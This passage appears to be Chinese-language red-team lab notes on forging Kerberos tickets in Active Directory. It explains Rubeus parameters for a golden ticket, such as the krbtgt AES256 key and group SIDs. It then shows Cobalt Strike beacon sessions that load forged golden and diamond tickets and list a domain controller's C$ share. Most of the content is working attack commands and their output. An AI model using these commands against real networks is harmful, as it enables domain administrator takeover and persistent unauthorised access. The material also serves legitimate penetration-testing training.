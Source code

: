 参数解释

- /user is the username to impersonate.
- /domain is the current domain.
- /sid is the current domain SID.
- /sids is the SID of the target group to add ourselves to.
- /aes256 is the AES256 key of the current domain's krbtgt account.
- /startoffset sets the start time of the ticket to 10 mins before the current time.
- /endin sets the expiry date for the ticket to 60 mins.
- /renewmax sets how long the ticket can be valid for if renewed.


导入
```
beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\cyberbotic.kirbi
beacon> ls \\dc-1\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
 
 beacon> rev2self
```


2. 钻票

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /sids:S-1-5-21-378720957-2217973887-3501892633-512 /krbkey:390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa /nowrap

[...snip...]

beacon> make_token CYBER\Administrator FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\diamond.kirbi

beacon> ls \\dc-1\c$
[*] Listing: \\dc-1\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 09:22:26   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings

[...snip...]
```
